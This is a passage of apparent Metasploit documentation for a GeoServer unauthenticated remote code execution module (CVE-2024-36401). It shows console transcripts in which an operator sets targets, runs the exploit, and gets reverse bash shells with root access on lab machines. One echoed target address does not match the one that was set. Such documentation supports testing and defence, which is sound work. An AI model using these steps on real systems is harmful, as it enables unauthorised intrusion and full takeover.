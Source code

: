 ```msf
Linux cuckoo 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - cmd/unix/reverse_bash
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-11 16:15:31 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-11) aarch64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.2 on vulhub docker image - cmd/unix/reverse_bash
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.42
rhosts => 192.168.201.10
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.2
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.42:60290) at 2024-07-11 18:42:08 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux e3f986905bde 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 GNU/Linux
pwd
/mnt/geoserver
```
###  GeoServer 2.23.2 on vulhub docker image - linux/x64/meterpreter_reverse_tcp